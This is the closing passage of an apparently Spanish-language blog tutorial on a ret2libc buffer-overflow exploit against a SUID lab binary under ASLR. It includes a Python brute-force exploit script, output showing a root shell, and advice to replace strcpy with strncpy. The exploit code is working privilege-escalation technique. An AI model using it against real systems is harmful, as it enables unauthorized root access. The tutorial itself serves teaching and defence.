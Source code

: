 ```python
offset = 112
junk = b"A" * 112

eip = system_address + exit_address + bin_sh_address

payload = junk + eip

while True:
    res = call(["/home/elliot/Desktop/ovrflw", payload])
    if res == 0:
        print("\n[!] Exiting the program...\n")
        sys.exit(0)
```

Utilizando la librería `subprocess` y su función `call`, podemos ejecutar el binario objetivo desde el propio exploit, proporcionando el payload como argumento. Esto nos permite llevar a cabo el ataque, y el resultado obtenido sería el siguiente.

```bash
elliot@Ubuntu:~/Desktop$ python3 exploit.py
# whoami
root
#
```

Finalmente hemos logrado poder realizar una llamada a nivel de sistema ejecutandonos una **/bin/sh** como el usuario **root**, ya que el binario tenia permisos SUID.

### Conclusiones

Para finalizar, a modo de conclusión podemos decir que aunque un ejecutable cuente con protecciones, es factible eludir esas restricciones, como hemos observado. Aunque el ASLR constituye una medida de seguridad sólida, es evidente que existen técnicas capaces de sortear dicha protección.

Por ultimo, es recomendado prevenir el uso de funciones inseguras como `strcpy` y, en su lugar, sustituirla con la función `strncpy`, incorporándola al código de la siguiente manera:

```c
#include <stdio.h>

void my_function(char *buff) {
	char buffer[64];
	strncpy(buffer, buff, sizeof(buffer));
}

void main(int argc, char **argv) {
	my_function(argv[1]);
}
```

De esta forma, llegamos al final del post.

Espero que los conceptos hayan quedado claros. Si has llegado hasta este punto y aún tienes dudas, te recomiendo volver a leer y poner en practica los conceptos.

Gracias por tu lectura!

Happy Hacking!
